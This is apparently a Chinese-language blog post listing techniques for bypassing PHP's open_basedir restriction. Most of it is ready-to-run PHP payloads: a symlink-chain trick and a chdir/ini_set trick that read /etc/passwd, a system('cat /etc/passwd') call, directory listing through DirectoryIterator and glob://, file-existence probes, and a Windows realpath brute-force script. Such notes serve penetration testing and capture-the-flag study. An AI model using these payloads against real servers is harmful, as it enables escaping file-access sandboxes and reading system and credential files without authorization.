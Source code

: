 ```yaml
---
layout:     post
title:      PHP bypass open_basedir
subtitle:   简单记录绕过的几种方法
date:       2020-07-28
author:     BY Diego
header-img: img/wenzhang/post-php-open_basedir.jpg
catalog: true
tags:
    - PHP
---
```


实验环境

![aPsSWq.png](https://s1.ax1x.com/2020/07/27/aPsSWq.png)



# symlink 绕过

前提：有足够的权限去创建文件

payload
```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
mkdir("E");
chdir("E");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D/E","bypass");
symlink("bypass/../../../../../etc/passwd","res");
unlink("bypass");
mkdir("bypass");
?>
```

原理 由于symlink 也受到`open_basedir`的限制 无法直接绕过限制， 先依次创建一个文件夹`A/B/C/D/E`，然后通过软连接让 `/var/www/html/dir/bypass -> /var/www/html/dir/A/B/C/D/E`,然后 `/var/www/html/dir/res -> /var/www/html/dir/bypass/../../../../../etc/passwd` ,也就是说 `/var/www/html/dir/res -> /var/www/html/dir/A/B/C/D/E/../../../../../etc/passwd = /var/www/html/dir/etc/passwd` 至此所有操作都是在`open_basedir`中操作的，再然后删除 `bypass` 文件再新建一个单纯的文件不在具有链接，现在res的指向变成了`/var/www/html/dir/res -> /var/www/html/dir/bypass/../../../../../etc/passwd = /etc/password`

![aPs9S0.png](https://s1.ax1x.com/2020/07/27/aPs9S0.png)




# glob

方法一

利用 `DirectoryIterator`

```php
<?php
$c = $_GET['c'];
$a = new DirectoryIterator($c);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

方法二

```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```
只能列目录，php7可以用如下方法读非根目录文件

该方法测试发现除了根目录 与 `open_basedir`指定的目录，只要知道某个目录下的文件名称就可列目录
如 `/var` 下存在 `www` 目录，那么就可以对 `/var` 下任意目录进行列举

如 `glob:///*/www/../*` 就可列举   `/var`

![aPv07F.png](https://s1.ax1x.com/2020/07/27/aPv07F.png)

![aPvw0U.png](https://s1.ax1x.com/2020/07/27/aPvw0U.png)

# 系统命令函数

命令函数不受限制
```php
system('cat /etc/passwd');
```

# chdir 与 ini_set

```php
<?php
mkdir('aa');chdir('aa');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
?>
```

# bindtextdomain 与 SplFileInfo

只能确定目录文件是否存在，存在则返回路径 否则false
```php
<?php
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

```php
<?php
$info = new SplFileInfo($_GET['dir']);
var_dump($info->getRealPath());
?>
```

# realpath

仅限windows
```php

<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = '**';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) {
        $file = $dir . $chars[$i] . '<><';
        realpath($file);
}
function isexists($errno, $errstr)
{
        $regexp = '/File\((.*)\) is not within/';
        preg_match($regexp, $errstr, $matches);
        if (isset($matches[1])) {
                printf("%s <br/>", $matches[1]);
        }
}
?>
```


# 其他

[php5全版本绕过open_basedir读文件脚本](https://www.leavesongs.com/bypass-open-basedir-readfile.html)

[浅谈几种Bypass open_basedir的方法](https://www.mi1k7ea.com/2019/07/20/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-open-basedir%E7%9A%84%E6%96%B9%E6%B3%95/)
